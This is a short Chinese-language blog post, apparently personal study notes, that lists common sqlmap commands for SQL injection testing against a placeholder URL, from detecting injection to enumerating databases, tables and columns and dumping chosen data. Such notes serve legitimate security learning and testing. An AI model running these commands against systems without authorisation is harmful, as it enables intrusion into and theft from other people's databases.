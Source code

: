 ```yaml
---
layout:     post
title:     工具（一）sqlmap
subtitle:   这个系列是安全相关工具的介绍、参数使用、常用指令等等用法心得体会，有些常用的工具会记得比较细。本章是sqlmap笔记。
date:       2020-12-06
author:     K4ys0n
header-img: img/home-bg-o.jpg
catalog:    true
tags:
    - 工具
    - web
    - 网络安全
    - 学习笔记
    - SQL注入
---
```




## 0x00 常用指令

- SQL注入测试，并且按照默认自动完成用户交互。

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --batch 
```

- 获取当前数据库

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --batch --current-db
```

- 获取所有数据库

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --batch --dbs
```

- 指定数据库类型为MySQL，获取表名

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --batch --dbms "MySQL" -D [数据库名] --tables
```

- 指定库名、表名，获取列名

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --batch --dbms "MySQL" -D [数据库名] -T [表名] --columns
```

- 指定库名、表名、列名，获取数据

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --batch --dbms "MySQL" -D [数据库名] -T [表名] -C "[列名1],[列名2]" --dump
```
